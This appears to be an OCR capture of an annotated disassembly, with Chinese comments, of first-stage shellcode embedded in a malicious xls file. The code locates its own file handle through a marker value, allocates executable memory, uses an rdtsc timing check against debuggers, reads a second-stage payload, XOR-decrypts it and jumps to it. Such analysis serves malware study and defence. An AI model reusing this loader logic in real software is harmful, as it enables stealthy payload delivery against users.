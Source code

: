     0013971C 5E pop esi
    0013971D 54 push esp
    0013971E 56 push esi
    0013971F FF55 20 call dword ptr [ebp+20] ;穷举文件句柄，通过GetFileSize获得文件大小
    00139722 8985 94000000 mov dword ptr [ebp+94], eax
    00139728 83F8 FF cmp eax, -1
    0013972B 75 06 jnz short 00139733
    0013972D 83C6 04 add esi, 4
    00139730 56 push esi
    00139731 ^ EB E9 jmp short 0013971C
    00139733 3D 2F440000 cmp eax, 442F ;只处理大于0x442F的文件
    00139738 ^ 76 F3 jbe short 0013972D
    0013973A 6A 00 push 0
    0013973C 6A 00 push 0
    0013973E 68 27440000 push 4427
    00139743 56 push esi
    00139744 FF55 28 call dword ptr [ebp+28];SetFilePointer，从偏移0x4427读内容
    00139747 8D85 90000000 lea eax, dword ptr [ebp+90]
    0013974D 6A 00 push 0
    0013974F 50 push eax
    00139750 6A 08 push 8
    00139752 8D85 9C000000 lea eax, dword ptr [ebp+9C]
    00139758 50 push eax
    00139759 56 push esi
    0013975A FF55 2C call dword ptr [ebp+2C] ;ReadFile
    0013975D 81BD 9C000000 F>cmp dword ptr [ebp+9C], 8BA7D5F6;判断特殊标记，就是xls自身文件
    00139767 ^ 75 C4 jnz short 0013972D
    00139769 89B5 98000000 mov dword ptr [ebp+98], esi
    0013976F 6A 40 push 40
    00139771 68 00100000 push 1000
    00139776 FFB5 A0000000 push dword ptr [ebp+A0]
    0013977C 6A 00 push 0
    0013977E FF55 24 call dword ptr [ebp+24] ;VirtualAlloc
    00139781 8985 A4000000 mov dword ptr [ebp+A4], eax
    00139787 60 pushad
    00139788 0F31 rdtsc ;这里做了反调试，通过时间判断是否在单步执行
    0013978A 33C9 xor ecx, ecx
    0013978C 03C8 add ecx, eax
    0013978E 0F31 rdtsc
    00139790 2BC1 sub eax, ecx
    00139792 3D FF0F0000 cmp eax, 0FFF
    00139797 61 popad
    00139798 0F83 94000000 jnb 00139832
    0013979E 8D9D 90000000 lea ebx, dword ptr [ebp+90]
    001397A4 6A 00 push 0
    001397A6 53 push ebx
    001397A7 FFB5 A0000000 push dword ptr [ebp+A0]
    001397AD 50 push eax
    001397AE FFB5 98000000 push dword ptr [ebp+98]
    001397B4 FF55 2C call dword ptr [ebp+2C] :ReadFile读出第二段shellcode
    001397B7 8B9D A4000000 mov ebx, dword ptr [ebp+A4]
    001397BD 60 pushad
    001397BE 33C9 xor ecx, ecx ;下面开始解密第二段shellcode
    001397C0 33C0 xor eax, eax
    001397C2 8A040B mov al, byte ptr [ebx+ecx]
    001397C5 34 8D xor al, 8D
    001397C7 88040B mov byte ptr [ebx+ecx], al
    001397CA 8BB5 A0000000 mov esi, dword ptr [ebp+A0]
    001397D0 41 inc ecx
    001397D1 3BCE cmp ecx, esi
    001397D3 ^ 75 EB jnz short 001397C0
    001397D5 61 popad
    001397D6 FFB5 98000000 push dword ptr [ebp+98] ;把自身文件句柄作为参数
    001397DC FFE3 jmp ebx ;跳转到第二段shellcode执行